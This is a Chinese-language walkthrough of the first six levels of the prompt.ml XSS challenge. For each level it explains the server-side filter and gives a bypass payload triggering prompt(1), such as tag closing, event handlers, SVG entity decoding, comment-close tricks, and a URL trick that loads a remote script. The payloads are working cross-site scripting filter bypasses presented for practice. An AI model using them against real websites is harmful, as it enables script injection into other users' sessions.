 http://prompt.ml/0  
注意在这里使用的过关方法是prompt(1)

# 0x0
直接闭合value：
```
"><script type=text/javascript>prompt(1)</script>
```

# 0x1
服务器端将<>内的内容过滤，通过少输入一个>绕过，不影响运行：
```
<body onload="prompt(1)"
```

# 0x2
服务器端将“=”和“(“过滤，一开始查了一圈也没找到绕过等号的方法，后来借鉴别人的方法，发现“使用SVG标签，会提前将将XML实体解析再加入标签”，所以构造：
```
<svg><script>prompt&#x28;1)</script>
```

# 0x3
服务器端将”->“转换成“_”是为了防止闭合注释，但“\<!--”可以通过“-->”和“--!>”两种方式闭合：
```
--!><script type=text/javascript>prompt(1)</script>
```

# 0x4
匹配前面的URL格式绕过正则，并使用%2f绕过decodeURIComponent函数，最后使用自己的服务器上在js文件中写入prompt(1)：
```
http://prompt.ml%2f@http://xx.xx.xx.xx/1.js
```

# 0x5
“>”和“on=xxx“被正则转义，通过将type覆盖为image，并通过换行绕过正则：
```
" type=image src onerror
="prompt(1)
```
